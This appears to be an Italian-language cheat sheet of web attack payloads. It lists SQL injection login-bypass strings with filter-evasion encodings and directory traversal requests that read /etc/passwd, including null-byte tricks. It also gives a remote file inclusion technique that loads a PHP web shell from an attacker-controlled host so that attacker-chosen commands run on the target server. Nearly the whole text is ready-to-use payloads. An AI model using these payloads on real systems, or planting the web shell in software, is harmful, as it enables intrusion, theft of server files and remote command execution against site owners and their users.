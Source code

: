     '||1=1#- 
    'OR(1=1)#
    ')OR('1'='1
    '%09OR%091=1%09--%09 (%09 corrisponde al TAB, sostituisce gli spazi quando questi sono bloccati)
    %bf%27 or 1=1 -- (* vedi link sotto)
    ```
    **[* link](https://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string)**

# Directory traversal

`/file.php?file=file.php`  
`/file.php?file=file.php%00`

`/file.php?file=/hacker.png/../../../../../../../../../../../etc/passwd`  
`/file.php?file=/var/www(!removed >> hacker.png!)/../../../../../../../../../../../etc/passwd`  
`/file.php?file=../../../../../../../../../../../etc/passwd%00`

# LFI & RFI

**remotefile.txt** : 
```php
<?php 
  system($_GET['c']);
?>
___

<?php 

phpinfo();

?>
```
**file php con funzione include()** :
```
http://<website>/?page=intro.php

>>

/?c=[COMMAND]&page=https://<hackersite>/remotefile.txt 

OR

/?page=https://<hackersite>/remotefile.txt&c=[COMMAND] 
```
**NULL BYTE**
```
http://<website>/?page=intro.php

>>

/?c=[COMMAND]&page=https://<hackersite>/remotefile.txt%00 

OR

/?page=https://<hackersite>/remotefile.txt%00&c=[COMMAND]
```
